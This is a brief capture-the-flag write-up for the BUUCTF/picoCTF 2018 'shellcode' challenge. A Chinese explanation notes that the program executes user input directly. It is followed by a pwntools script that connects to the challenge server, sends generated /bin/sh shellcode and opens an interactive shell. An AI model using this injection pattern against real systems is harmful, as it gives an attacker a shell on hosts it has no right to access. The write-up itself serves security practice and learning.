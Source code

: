 # week5
# BUUCTF-picoctf_2018_shellcode
vuln函数输入shellcode

<img width="208" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/efecac50-593e-40ac-9877-1966868c3ed3">

返回到main函数后输入会被直接执行
### exp_PicoCTF_2018_shellcode.py
```python
from pwn import *
# p = process("./PicoCTF_2018_shellcode")
p = remote("node4.buuoj.cn",27464)
context.log_level = 'debug'
context.arch = 'i386'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

sc = asm(shellcraft.sh())

ru("Enter a string!\n")
sl(sc)

shell()
```

